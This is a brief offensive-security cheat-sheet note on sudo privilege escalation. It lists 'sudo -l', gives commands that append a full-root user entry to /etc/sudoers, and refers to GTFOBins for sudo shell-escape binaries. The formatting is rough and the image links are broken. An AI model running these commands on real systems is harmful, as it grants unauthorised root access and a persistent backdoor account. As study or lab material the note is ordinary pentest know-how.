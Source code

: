<h3>SUDO SHELL ESCAPING</h3>

sudo -l
``add user thru sudoer using ALL=(ALL:ALL) ALL
``sudo echo “name ALL=(ALL:ALL) ALL” >> /etc/sudoers
or
``sudo bash -c 'echo "zombrax ALL=(ALL:ALL) ALL" >> /etc/sudoers'``


if you found this
visit link for shell scaping binary
[https://gtfobins.github.io/#](https://gtfobins.github.io/#)

![file:///tmp/.P4RB62/1.png](file:///tmp/.P4RB62/1.png)

search for binary
search for SUDO

![file:///tmp/.P4RB62/2.png](file:///tmp/.P4RB62/2.png)